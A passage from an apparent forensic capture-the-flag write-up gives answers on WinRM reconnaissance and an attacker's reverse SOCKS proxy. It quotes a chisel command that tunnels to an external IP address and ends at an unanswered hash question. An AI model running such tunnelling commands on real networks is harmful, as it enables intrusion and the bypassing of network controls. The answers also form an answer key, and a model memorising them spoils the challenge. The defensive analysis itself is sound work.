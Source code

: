#### 18. Port for Reconnaissance
**Question**: What is the port used for internal reconnaissance?

**Answer**: `5985`

**Investigation**: Found port 5985 (WinRM) in Sysmon network events linked to `infernotempest`.

**Screenshot**: ![Recon Port](screenshots/17.png)

#### 19. Command for Reverse Socks Proxy
**Question**: What is the command used to establish the reverse socks proxy?

**Answer**: `C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks`

**Investigation**: Identified the `chisel` command in Sysmon logs for establishing a reverse socks proxy to `167.71.199.191:8080`.

**Screenshot**: ![Proxy Command](screenshots/18.png)

#### 20. SHA256 Hash of Proxy Binary
**Question**: What is the SHA256 hash of the reverse socks proxy binary?

